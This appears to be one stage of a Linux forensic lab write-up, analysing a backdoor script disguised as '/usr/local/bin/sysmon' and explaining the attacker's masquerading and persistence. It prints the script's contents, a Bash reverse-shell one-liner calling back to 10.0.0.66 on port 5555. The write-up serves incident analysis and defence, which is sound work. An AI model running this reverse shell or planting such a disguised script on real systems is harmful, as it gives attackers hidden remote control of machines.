

# Stage 08: Persistence & Masquerading Analysis (`/usr/local/bin/sysmon`)

## 1. Investigation Objective
Inspect `/usr/local/bin` for the anomalous executable flagged during initial triage and determine how the attacker maintained elevated access.

## 2. Evidence Examined
* `/usr/local/bin/sysmon`

## 3. Linux Commands Used
```bash
cd /usr/local/bin
ls -la
cat sysmon
```

## 4. What I Observed
Inside `/usr/local/bin`, a recently modified file named `sysmon` contained a Bash reverse-shell payload rather than a legitimate monitoring binary:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.66/5555 0>&1
```

## 5. How I Interpreted the Evidence
After gaining administrative access as `r.house`, the attacker planted a second reverse-shell script inside `/usr/local/bin/sysmon` configured to connect back to `10.0.0.66` on TCP port `5555`. Naming the file `sysmon` in a standard binary path was a deliberate masquerading technique to blend in with legitimate system monitoring utilities.

## 6. Screenshot of the Actual Investigation


## 7. What the Finding Established
Uncovered a masqueraded administrative backdoor (`/usr/local/bin/sysmon`) configured for elevated C2 callbacks to `10.0.0.66:5555`.
